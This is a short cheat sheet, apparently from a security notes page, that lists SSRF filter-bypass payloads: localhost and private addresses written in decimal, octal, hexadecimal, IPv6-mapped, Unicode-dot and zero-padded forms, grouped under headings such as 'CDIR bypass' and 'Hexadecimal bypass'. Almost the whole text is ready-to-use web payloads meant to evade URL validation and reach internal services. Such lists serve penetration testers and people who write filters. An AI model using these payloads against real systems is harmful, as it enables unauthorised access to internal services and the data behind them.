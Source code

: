 
# Local Host

```bash
All IPv4: 0
All IPv6: ::
All IPv4: 0.0.0.0
Localhost IPv6: ::1
All IPv4: 0000
All IPv4: (Leading zeros): 00000000
IPv4 mapped IPv6 address: 0:0:0:0:0:FFFF:7F00:0001
8-Bit Octal conversion: 0177.00.00.01
32-Bit Octal conversion: 017700000001
32-Bit Hex conversion: 0x7f000001

# Localhost
<http://127.0.0.1:80>
<http://127.0.0.1:443>
<http://127.0.0.1:22>
<http://127.1:80>
<http://127.000000000000000.1>
<http://0>
http:@0/ --> <http://localhost/>
<http://0.0.0.0:80>
<http://localhost:80>
http://[::]:80/
http://[::]:25/ SMTP
http://[::]:3128/ Squid
http://[0000::1]:80/
http://[0:0:0:0:0:ffff:127.0.0.1]/thefile
<http://①②⑦.⓪.⓪.⓪>

# CDIR bypass
<http://127.127.127.127>
<http://127.0.1.3>
<http://127.0.0.0>

# Dot bypass
127。0。0。1
127%E3%80%820%E3%80%820%E3%80%821

# Decimal bypass
<http://2130706433/> = <http://127.0.0.1>
<http://3232235521/> = <http://192.168.0.1>
<http://3232235777/> = <http://192.168.1.1>

# Octal Bypass
<http://0177.0000.0000.0001>
<http://00000177.00000000.00000000.00000001>
<http://017700000001>

# Hexadecimal bypass
127.0.0.1 = 0x7f 00 00 01
<http://0x7f000001/> = <http://127.0.0.1>
<http://0xc0a80014/> = <http://192.168.0.20>
0x7f.0x00.0x00.0x01
0x0000007f.0x00000000.0x00000000.0x00000001

# Add 0s bypass
127.000000000000.1

# You can also mix different encoding formats
# <https://www.silisoftware.com/tools/ipconverter.php>
```